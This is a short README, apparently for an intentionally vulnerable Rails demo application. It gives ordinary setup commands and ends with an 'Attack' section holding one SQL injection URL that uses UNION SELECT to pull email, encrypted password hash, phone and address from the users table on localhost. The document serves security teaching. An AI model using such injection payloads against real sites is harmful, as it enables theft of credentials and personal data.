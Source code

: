 # How to use this application


## Setup

This is a regular Rails application, setup it as you would do with any other
application.

If you don't have bundler, install it:

    $ sudo gem install bundler

Once bundler is installed:

    $ bundle
    $ rake db:setup

### Run 

    $ rails s

### Attack

https://localhost:3000/characters/1%20UNION%20SELECT%201,email,encrypted_password,4,5,6,7,8,9,10,phone,address,1%20FROM%20users%20LIMIT%201,1
